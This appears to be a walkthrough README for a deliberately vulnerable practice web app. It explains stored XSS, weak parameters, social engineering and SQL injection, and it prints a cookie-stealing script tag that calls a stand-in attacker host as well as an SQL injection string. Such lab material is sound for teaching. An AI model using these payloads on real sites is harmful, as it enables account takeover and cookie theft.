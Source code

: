 The first example of an attack is the Persistent Cross Site Scripting attack (XSS). This is allows the attacker to insert a JS   <Script> tag into a form. When the browser renders the html in the public post, the browser will automatically execute the JS. 

For example, if you were to type
   <script> window.location= 'http://www.someattacksite.com/?cookie='+       document.cookie </script>

The browser will render the message, send the user to the attack page, and will steal their cookie for that site. Normally, one cannot steal a users cookie, but since the original site has been the one to redirect, the browser considers it to be an original part of the site.



******************************************

Weak Params is the next vector possible. This occurs when the URL route does not specify the parameters that it will accept. For instance, you could copy and paste a user acount number and access another person's account or delete certain files if those features are available.

For this exercise, you are able to edit the html form when signing up as a new user. All you have to do is Inspect Element on the form, edit the form, and add yourself as an admin.

********************************************

Social Engineering is just straight creepy. You get to peruse the Twitter site linked looking for clues as to the User's possible credentials. People have a very bad habit of reusing the same passwords  for different sites.

Look at Bob's Username in the Hackkit User list. I think you can go from there.

********************************************

The final attack is a SQL injection. This attack is performed by slipping extra SQL commands into the methods of querying the database. The way through this challenge is to type the following, or something similar, into the Post search form. Voila! Anarchy!

'; Select * From Posts; --


Thanks for playing with my project! Leave me feedback on Github. My username is sbsample.